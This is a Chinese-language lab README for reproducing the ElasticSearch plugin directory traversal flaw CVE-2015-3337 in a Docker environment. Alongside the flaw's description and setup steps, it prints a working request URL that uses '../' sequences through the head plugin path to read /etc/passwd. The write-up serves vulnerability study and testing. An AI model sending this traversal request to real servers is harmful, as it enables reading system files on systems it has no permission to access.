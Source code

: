 # ElasticSearch 插件目录穿越漏洞（CVE-2015-3337）

ElasticSearch是一个分布式的RESTful搜索和分析引擎。

在ElasticSearch的插件功能中存在一个目录穿越漏洞，攻击者可以利用该漏洞读取系统上的任意文件。在安装了具有"site"功能的插件后，攻击者可以通过在插件目录路径中使用`../`来遍历目录树，从而实现任意文件读取。未安装任何插件的ElasticSearch不受此漏洞影响。

参考链接：

- <https://nvd.nist.gov/vuln/detail/CVE-2015-3337>
- <https://github.com/elastic/elasticsearch/issues/10828>

## 环境搭建

执行以下命令来启动一个1.4.4版本的ElasticSearch服务器：

```
docker compose up -d
```

测试环境默认安装了一个插件：`elasticsearch-head`，这是一个ElasticSearch的Web前端界面。关于该插件的更多信息可以在这里找到：<https://github.com/mobz/elasticsearch-head>

## 漏洞复现

要利用此漏洞，可以通过在插件路径中使用目录穿越来读取任意文件。例如，要读取`/etc/passwd`文件，发送如下请求：

```
http://your-ip:9200/_plugin/head/../../../../../../../../../etc/passwd
```

注意：请不要直接在浏览器中访问此URL。

![](1.png)

## 补充信息

head插件提供了ElasticSearch的Web界面。你可以通过访问`http://your-ip:9200/_plugin/head/`来通过图形界面与你的ElasticSearch集群进行交互。
